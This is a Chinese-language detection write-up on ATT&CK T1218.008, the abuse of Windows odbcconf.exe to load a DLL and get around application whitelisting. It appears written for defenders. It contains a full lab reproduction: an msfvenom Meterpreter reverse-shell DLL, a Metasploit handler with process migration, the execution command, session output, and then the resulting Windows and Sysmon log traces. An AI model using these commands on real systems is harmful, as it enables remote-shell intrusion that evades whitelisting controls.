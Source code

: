 # T1218-008-win-基于白名单Odbcconf.exe执行Payload

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Odbcconf.exe是允许配置开放数据库连接（ODBC）驱动和数据源名称的Windows工具。攻击者也可能滥用此工具来执行动态链接库，就像带有REGSVR选项的Regsvr32一样。

odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\payload.dll}
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 2 opened (192.168.126.146:53 -> 192.168.126.149:49306) at 2020-04-18 20:45:29 +0800
[*] Session ID 2 (192.168.126.146:53 -> 192.168.126.149:49306) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rundll32.exe (912)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3820
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xfec
新进程名: C:\Windows\SysWOW64\odbcconf.exe

事件ID：4688
进程信息:
新进程 ID: 0x390
新进程名: C:\Windows\SysWOW64\rundll32.exe

sysmon日志
事件ID：1
Image: C:\Windows\SysWOW64\odbcconf.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: ODBC Driver Configuration Program
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: odbcconf.exe
CommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=B1C49B2159C237B1F2BCE2D40508113E39143F7B
ParentProcessGuid: {bb1f7c32-f65d-5e9a-0000-0010833eef00}
ParentProcessId: 3868
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

事件ID：1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=8939CF35447B22DD2C6E6F443446ACC1BF986D58
ParentProcessGuid: {bb1f7c32-f662-5e9a-0000-0010d648ef00}
ParentProcessId: 4076
ParentImage: C:\Windows\SysWOW64\odbcconf.exe
ParentCommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-008

<https://attack.mitre.org/techniques/T1218/008/>

windows下基于白名单获取shell的方法整理（下）

<http://www.safe6.cn/article/157#directory030494471069429444>

